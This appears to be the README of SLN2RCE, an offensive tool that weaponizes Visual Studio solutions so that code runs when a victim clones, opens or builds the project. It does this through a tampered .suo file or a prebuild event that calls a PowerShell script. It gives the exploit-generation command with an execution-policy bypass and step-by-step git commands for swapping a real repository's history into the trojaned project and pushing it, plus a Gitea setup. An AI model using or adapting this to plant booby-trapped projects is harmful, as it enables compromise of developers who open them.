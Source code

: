 #########
SLN 2 RCE
#########

| Weaponizing Visual Studio projects to trigger RCE using SUO file (Solution User Options) or prebuild event
|
| All credit goes to cjm00nw, edwardzpeng & moom825
|  https://github.com/cjm00n/EvilSln
|  https://github.com/moom825/visualstudio-suo-exploit

|
| SUO RCE happen when cloning project into VS or when opening the sln project file for the first time (VS overwrite the suo file).
| (Note that suo file isn't interpreted by msbuild.exe)
| The suo file has been modified using suo_exploit_test.exe to overwrite the initial suo file generated by VS.

.. code-block:: powershell

    suo_exploit_test.exe .suo test.suo powershell -ep bypass -file action.ps1

|

| The prebuild event will happen when starting build, so VS/msbuild.exe needs to support targeted language.
| This project offer c# (.NET6.0) and c++ models.
| All methods will call action.ps1 powershell script (and will start calc)

|

*****
Usage
*****

.. code-block:: bash

    # Move to a new temp dir
    cd $(mktemp -d)

    # Clone SLN2RCE and your payload project
    git clone https://github.com/charlesgargasson/SLN2RCE.git
    git clone http://localhost:3000/user2/repo.git

    # Get git info from your project
    rm -rf SLN2RCE/.git
    cp -r repo/.git SLN2RCE/

    # Set command
    echo 'calc' \
    > SLN2RCE/action.ps1

    # Push modifications
    cd SLN2RCE
    git add .*
    git commit -m ok
    git push

|

| If you need a git instance

.. code-block:: bash

    cat <<'EOF'>/tmp/gitea.yml
    version: "3"

    networks:
    gitea:
        external: false

    services:
    server:
        image: gitea/gitea:1.22.3
        container_name: gitea
        environment:
        - USER_UID=1000
        - USER_GID=1000
        restart: always
        networks:
        - gitea
        volumes:
        - /tmp/gitea:/data
        - /etc/timezone:/etc/timezone:ro
        - /etc/localtime:/etc/localtime:ro
        ports:
        - "3000:3000"
        - "222:22"
    EOF

    docker-compose -f /tmp/gitea.yml up

|